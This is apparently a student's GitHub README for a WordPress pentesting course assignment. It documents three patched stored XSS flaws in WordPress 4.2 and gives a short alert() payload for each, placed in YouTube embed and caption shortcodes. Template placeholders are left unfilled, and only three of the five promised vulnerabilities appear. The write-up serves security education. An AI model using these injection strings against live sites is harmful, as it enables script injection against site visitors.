 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: 
  <img src='https://github.com/Hanyuatwork/Cyber_week_7/blob/master/Week7_1.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  
  - [x] Steps to recreate: 
    Try to post a new page, which include the embed code [embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
    
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
    
1. (Required) WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
   <img src='https://github.com/Hanyuatwork/Cyber_week_7/blob/master/Week7_2.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: 
  Try to post a new page, which include the code <a href="[caption code=">]</a><a title=" onclick=alert('XSS!')  ">link</a>
  
  - [x] Affected source code:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
    
1. (Required) WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types:xss
    - Tested in version:4.2
    - Fixed in version: 4.3.1
  - [x] GIF Walkthrough: 
   <img src='https://github.com/Hanyuatwork/Cyber_week_7/blob/master/Week7_3.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: 
    Try to post a new page, which include the code [caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click</a>
  - [x] Affected source code:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
